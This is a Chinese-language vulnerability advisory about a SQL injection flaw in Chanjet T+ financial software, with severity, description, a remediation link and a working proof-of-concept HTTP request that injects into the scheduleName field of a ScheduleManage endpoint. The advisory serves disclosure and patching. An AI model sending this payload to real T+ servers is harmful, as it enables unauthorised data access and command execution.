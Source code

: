 #  漏洞预警 | 畅捷通T+ SQL注入漏洞   
浅安  浅安安全   2024-03-13 08:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
畅捷通T+是一款主要针对中小型工贸和商贸企业的财务业务一体化应用，融入了社交化、移动化、物联网、电子商务、互联网信息订阅等元素。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/7stTqD182SUILDwZiaCjMtWRej8GVJEGRaG5pxp8u8ar4nlYEmA0QuictibrSRCq237G4T3Ma9yibCerGmAj2oBaVg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
SQL注入  
  
  
**影响：**  
命令执行  
  
**简述：**  
畅捷通信息技术股份有限公司畅捷通T+存在SQL注入漏洞，攻击者可利用该漏洞获取敏感数据，甚至在高权限下，执行任意命令。  
###   
  
**0x04 影响版本**  
- 畅捷通T+  
  
**0x05****POC**  
```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.ScheduleManage.ScheduleManageController,Ufida.T.SM.UIP.ashx?method=GetScheduleLogList HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 93
        
{"scheduleName":"' AND 1 IN (SELECT sys.fn_varbintohexstr(hashbytes('MD5','1'))) AND '1'='1"}
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.chanjetvip.com/product/goods/  
  
  
  
